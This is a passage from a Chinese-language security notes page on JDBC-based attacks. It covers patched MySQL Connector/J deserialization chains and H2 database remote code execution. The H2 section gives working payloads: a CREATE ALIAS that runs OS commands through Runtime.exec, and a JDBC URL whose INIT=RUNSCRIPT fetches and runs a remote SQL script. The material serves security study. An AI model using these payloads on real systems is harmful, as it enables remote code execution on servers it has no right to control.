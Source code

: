 ```java
						}
					} 
                    ...
            }
		}
        ...
	}
```
#### 修复

**ServerStatusDiffInterceptor链：**

8.0.20版本中，`com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor#populateMapWithSessionStatusValues`不再调用`resultSetToMap()`即getObject()。此利用链失效

**detectCustomCollations链：**
mysql-connector-java 8.0以上不再在`com.mysql.cj.jdbc.ConnectionImpl`中直接执行及获取"SHOW COLLATION"语句，调用链更改，不再调用getObject()方法，此链失效

#### PoC

[Todo](/todo)

参考工具 [MySQL Fake Server](https://github.com/fnmsd/MySQL_Fake_Server){:target="_blank"}


### Other DB

#### H2

H2 是一个用 Java 开发的嵌入式数据库，它本身只是一个类库，即只有一个 jar 文件，可以直接嵌入到应用项目中。H2 主要有如下三个用途：

1. 可以同应用程序打包在一起发布，这样可以非常方便地存储少量结构化数据。
2. 用于单元测试。启动速度快，而且可以关闭持久化功能，每一个用例执行完随即还原到初始状态。
3. 作为缓存，即当做内存数据库，作为NoSQL的一个补充。当某些场景下数据模型必须为关系型，可以拿它当Memcached使，作为后端MySQL/Oracle的一个缓冲层，缓存一些不经常变化但需要频繁访问的数据，比如字典表、权限表

**INIT RunScript RCE**

H2连接的时候可以通过设置INIT执行一段SQL脚本，从而实现RCE。

```sql title="rce.sql"
CREATE ALIAS EXEC AS 'String exec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "su18";}';CALL EXEC ('calc')
```

控制JDBC URL为`jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8000/rce.sql'`即可执行脚本，但该方法需要有正确的账户和密码登录。

**Alias Script RCE**

利用加载字节码实现不出网RCE，类似于SPEL以及OGNL注入内存马。

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : ""; }$$;CALL SHELLEXEC('whoami');
```
